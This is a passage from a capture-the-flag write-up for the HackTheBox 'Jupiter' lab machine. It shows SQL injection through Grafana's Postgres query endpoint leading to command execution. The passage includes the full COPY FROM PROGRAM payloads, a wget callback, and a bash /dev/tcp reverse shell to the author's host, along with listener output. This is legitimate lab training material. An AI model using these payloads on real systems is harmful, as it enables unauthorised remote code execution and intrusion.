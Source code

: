 swagger-ui in this instance is used as a UI to manipulate databases, but I don't have permissions to do almost anything here so we'll shelf that for later. 

<h1>User as juno</h1>

<h2>Postgres Injection</h2>

Heading back to grafana I check the requests sent to the database this is pulling data from and see straight postgres commands heading to the endpoint /api/ds/query.


```json
{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select \n  count(parent) \nfrom \n  moons \nwhere \n  parent = 'Saturn';","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":453}],"range":{"from":"2023-09-26T19:11:08.900Z","to":"2023-09-27T01:11:08.900Z","raw":{"from":"now-6h","to":"now"}},"from":"1695755468900","to":"1695777068900"}
```

There is an exploit for specific versions of postgres to give me RCE on this machine, and instead of checking the version I craft a command using [https://www.exploit-db.com/exploits/50847](https://www.exploit-db.com/exploits/50847) and throw it in. Rigidly speaking this wasn't labelled as a vulnerability by the development team but this is effectively unauthenticated RCE.

```
DROP TABLE IF EXISTS raccoon; \n CREATE TABLE raccoon(cmd_output text); \n COPY raccoon FROM PROGRAM 'wget http://10.10.14.2:8081/test'; \n SELECT * FROM raccoon;
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Jupiter]
└──╼ $python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.216 - - [26/Sep/2023 20:28:21] code 404, message File not found
10.10.11.216 - - [26/Sep/2023 20:28:21] "GET /test HTTP/1.1" 404 -
```

And it turns out to be vulnerable, and after reading the CVE regular postgres might be vulnerable as well. Time to modify my command for a reverse shell and get a shell as postgres.

```json
{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"DROP TABLE IF EXISTS raccoon; \n CREATE TABLE raccoon(cmd_output text); \n COPY raccoon FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.14.2/7777 0>&1\"'; \n SELECT * FROM raccoon;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":453}],"range":{"from":"2023-09-26T19:11:08.900Z","to":"2023-09-27T01:11:08.900Z","raw":{"from":"now-6h","to":"now"}},"from":"1695755468900","to":"1695777068900"}
```


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Jupiter]
└──╼ $nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.216 43486
bash: cannot set terminal process group (1418): Inappropriate ioctl for device
bash: no job control in this shell
postgres@jupiter:/var/lib/postgresql/14/main$ whoami
whoami
postgres
```
